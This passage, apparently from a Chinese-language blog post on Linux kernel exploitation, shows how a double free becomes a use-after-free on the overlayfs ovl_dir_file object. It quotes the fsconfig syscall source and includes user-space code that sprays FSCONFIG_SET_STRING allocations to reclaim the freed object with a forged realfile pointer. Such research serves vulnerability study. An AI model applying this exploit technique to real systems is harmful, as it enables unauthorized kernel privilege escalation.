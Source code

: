 转换为 ovl\_dir\_file UAF 的示意图如下：

​[![](assets/1706146253-9c1bddf5e8ac2aab67f7bf0bd716bb5a.png)](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240123151800409-1052291946.png)​

> PS: 利用 Double Free 将占位的 ovl\_dir\_file 释放

使用 ramfs\_parse\_param 占位 ovl\_dir\_file 的相关代码如下：

```plain
SYSCALL_DEFINE5(fsconfig,
        int, fd,
        unsigned int, cmd,
        const char __user *, _key,
        const void __user *, _value,
        int, aux)
{
  ...
    struct fs_parameter param = {
        .type   = fs_value_is_undefined,
    };
  ...

  switch (cmd) {
  ...
    case FSCONFIG_SET_STRING:
        param.type = fs_value_is_string;
        param.string = strndup_user(_value, 256); // string buffer allocation happened here.
        if (IS_ERR(param.string)) {
            ret = PTR_ERR(param.string);
            goto out_key;
        }
        param.size = strlen(param.string);
        break;
  ...
  }
```

利用 FSCONFIG\_SET\_STRING 的 value 可以控制分配的数据和大小，对应到用户态代码如下：

```plain
struct ovl_dir_file *od = (struct ovl_dir_file*)overwrite_buf;
  od->realfile = fake_file_addr;
  overwrite_buf[sizeof(struct ovl_dir_file)] = 0;

  for (int i = 0; i < 2; i++)
    syscall(SYS_fsconfig, overwrite_ovl_dir_file_fsfds[i], FSCONFIG_SET_STRING, "source", overwrite_buf, 0);  // 多次分配确保占位刚刚释放的 ovl_dir_file
```
